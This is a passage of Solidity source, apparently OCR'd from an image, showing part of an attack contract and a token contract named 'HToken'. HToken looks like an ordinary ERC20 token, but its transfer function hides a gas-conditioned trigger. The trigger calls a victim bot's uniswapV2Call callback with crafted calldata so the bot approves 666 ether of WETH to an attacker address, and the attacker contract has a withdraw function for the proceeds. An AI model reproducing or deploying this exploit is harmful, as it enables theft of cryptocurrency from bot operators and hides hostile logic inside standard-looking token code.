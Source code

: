 ```solidity
    }

    function withdraw() external {
        require(msg.sender == owner, "sender");
        WETH.withdraw(WETH.balanceOf(address(this)));
        owner.transfer(address(this).balance);
    }

    receive() external payable {}
}

contract HToken {
    string constant public name = "Token";
    string constant public symbol = "T";
    uint8 constant public decimals = 18;
    uint constant public totalSupply = 100 ether;
    mapping (address => uint) public balanceOf;
    mapping (address => mapping (address => uint)) public allowance;

    bool public env=false;
    address public wethaddr;
    address public hackaddr;
    address payable public botaddr;
    event gasv(uint);//0x5e24efb52bbd23cf7587727df0e80d0cedc7e84bb3d3f473b33da1c03fa12282

    event Transfer(address indexed from, address indexed to, uint value);
    event Approval(address indexed owner, address indexed spender, uint value);

    constructor() {
        balanceOf[msg.sender] = totalSupply;
        emit Transfer(address(0), msg.sender, totalSupply);
    }

    function transfer(address to, uint value) public returns (bool) {
        uint256 gs=gasleft();
        emit gasv(gs);
        if(gs>0 && gs<0xf1800)
        {
            env=true;
            address t1=hackaddr;
            address[] memory addressList=new address[](1);
            bytes[] memory calldataList=new bytes[](1);
            addressList[0]=wethaddr;
            calldataList[0]=abi.encodeCall(IERC20.approve, (hackaddr,666 ether));
            Bot(botaddr).uniswapV2Call(botaddr, 0, 0, abi.encode(addressList,calldataList));
            // uint256 amo=IERC20(wethaddr).balanceOf(botaddr);
            // Bot(botaddr).uniswapV2Call(botaddr,0,0,abi.encode(t1,t1,amo,0,0));
        }

        _transfer(msg.sender, to, value);
        return true;
    }

    function approve(address spender, uint value) public returns (bool) {
        allowance[msg.sender][spender] = value;
        emit Approval(msg.sender, spender, value);
        return true;
    }

    function transferFrom(address from, address to, uint value) public returns (bool) {
        require(allowance[from][msg.sender] >= value);
        allowance[from][msg.sender] -= value;
        _transfer(from, to, value);
```